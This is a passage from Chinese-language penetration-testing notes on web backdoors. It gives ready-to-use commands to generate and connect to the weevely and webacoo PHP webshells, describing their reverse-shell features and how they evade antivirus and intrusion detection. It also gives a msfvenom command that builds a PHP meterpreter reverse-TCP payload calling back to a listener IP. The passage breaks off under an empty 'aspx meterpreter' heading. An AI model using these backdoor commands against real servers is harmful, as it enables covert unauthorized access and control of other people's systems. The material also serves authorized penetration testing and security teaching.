 #### 2.6 Web后门

##### 2.6.1 weevely后门

> weevely是一款python语言编写的针对php平台的webshell。集webshell生成和连接于一身
> 采用c/s模式构建，可以算作是linux下的一款php菜刀替代工具，具有很好的隐蔽性（生成随机参数且base64加密）

其主要功能如下：

- 执行命令和浏览远程文件

- 检测常见的服务器配置问题

- 创建tcp shell和reverse shell

- 扫描端口

- 安装http代理

Weevely生成后门的用法：

生成php后门：weevely generate <密码> <生成php后门的路径>

例：weevely generate 123456 /root/weevely.php

Weevely连接后门的用法：

weevely <目标url> <密码>

##### 2.6.2 webacoo后门

> webacoo(web backdoor cookie)是一款针对php平台的web后门工具
> 是一款隐蔽的脚本类Web后门工具。设计理念是躲避AV、NIDS、IPS、网络防火墙和应用防火墙的查杀，提供混淆和原始两种后门代码（原始代码较难检测）。WebBaCoo 使用HTTP响应头传送命令执行的结果，Shell命令经过**Base64编码**后隐藏在Cookie头中

Webacoo生成后门的用法：

- 使用默认配置生成模糊后门代码

- webacoo -g -o /root/backdoor.php #backdoor.php为自定义后门文件名

Webacoo连接后门的用法：

- 使用默认配置访问服务器

- webacoo -t -u http://xxx/backdoor.php

参数解释：

​	-g #生成后门

​	-o #指定生成的后门文件名

​	-t #指定进行客户端的连接

​	-u #url，后门路径

##### 2.6.3 php meterpreter

msfvenom -p php/meterpreter/reverse_tcp lhost=172.24.3.20 lport=4444 -f raw > /root/msf.php

##### 2.6.4 aspx meterpreter
